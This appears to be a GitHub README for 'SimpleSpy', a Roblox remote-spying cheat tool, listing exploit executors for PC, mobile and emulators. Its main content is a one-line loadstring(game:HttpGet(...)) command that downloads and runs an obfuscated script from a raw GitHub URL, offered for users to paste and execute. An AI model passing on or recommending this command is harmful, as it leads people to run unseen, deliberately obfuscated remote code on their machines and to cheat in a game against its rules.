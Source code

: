 # SimpleSpy

SimpleSpy is like RemoteSpy but for mobile and has modifications.

You can execute SimpleSpy from here

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/pkplaysrblx/codespier/main/obf_Bp0mC96sboM4oZZ6mU2sOy64yD5fEPK8qTZpy451VKyIyd7u9F8Xc3w9VI5Y0Kw8cVw4xG7wVgB6325aPQu1LTJvtt58IiaR"))("SimpleSpy")
```

# Executors you can use:

# PC:

- Solara
- Wave
- MacSploit
- Hydrogen
- Fluxus
- Oxygen
- Trigon
- Evon
- Electron
- Celery
and many more!

# Mobile:

- Arceus X Neo
- Codex
- Evon
- Trigon
- Alysse {Patched i think}
- Techno {Patched i think}
- Fluxus
  and many more!

# Emulators:

- Mumu Player
- LDPlayer
- Memu Player
- Bluestacks
 and many more!
